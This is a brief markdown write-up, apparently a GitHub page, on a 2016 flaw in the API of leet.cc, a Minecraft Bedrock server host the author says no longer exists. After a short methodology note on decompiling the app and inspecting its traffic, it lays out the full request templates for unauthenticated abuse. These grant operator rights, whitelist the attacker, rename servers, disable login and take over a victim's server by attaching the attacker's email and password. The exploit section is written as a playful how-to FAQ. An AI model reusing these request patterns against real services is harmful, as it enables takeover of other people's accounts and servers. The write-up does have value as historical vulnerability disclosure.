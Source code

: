 ```yaml
---
title: leet.cc account takeover (old bug)
---
```


The domain name
`leet.cc` was an Minecraft bedrock server hosting provider. (Service seems to no longer exist)  
The following bug allowed getting OP just by knowing someone's server domain.

This bug is from 2016 the same time they had their database breached <https://news.softpedia.com/news/data-for-6-million-minecraft-gamers-stolen-from-leet-cc-servers-507445.shtml> where someone uploaded a PHP shell to their website... This is from memory I may get stuff wrong.

I would hope it's fixed now 🙂 but then this is `leet.cc`

# Methodology

Reverse engineer the Android app using online apk decompilers and look at the network traffic using <https://www.telerik.com/fiddler> to see if the API did authentication correctly.  
Credit: <https://www.youtube.com/watch?v=LbZqaLKS7V4>

Server IDs (Incremental number) are used to identify what server to act on for the API.  
This could be gotten easily by using `https://leet.cc/verifyServerDomain.php?domain=<domain>`  
The user ID which used to be optional was the user's email address or their device ID.

# The exploit

In order to exploit this one would make a request to:

`https://mainapi.leet.cc/actionNew.php?cmd=<command>&userID=<userID>&params[]=<serverID>&params[]=<commandParameter>&versionCode=176&password=something_secret&client=google-free&k=<Base 64 encoded MD5 Hash of part of the URL>&sys=<Base 64 encoded MD5 Hash of part of the URL>`
No one knows why `k` and `sys` were there.

And now the how to exploit FAQ 🙂

# I want OP!

- `<command>` is `changeOP`
- `<commandParameter>` is your in-game name

# I'm not ~~whitelisted~~ allowlisted. What should I do?

- `<command>` is `changeWhitelistPlayers`
- `<commandParameter>` is your in-game name

# The server name is missing a duck emoji, no problem!

- `<command>` is `changeServerName`
- `<commandParameter>` is 🦆

# This old login using `/login <password>` is too annoying.

- Just set `setUserRegistration` to off!

# I wanted an account takeover!

Okay send a request to `https://mainapi.leet.cc/serverLogin.php?serverEmail=<attacker email>&serverPassword=<attacker password>&registerServerID=<serverId>&registerUserID=<userId>`
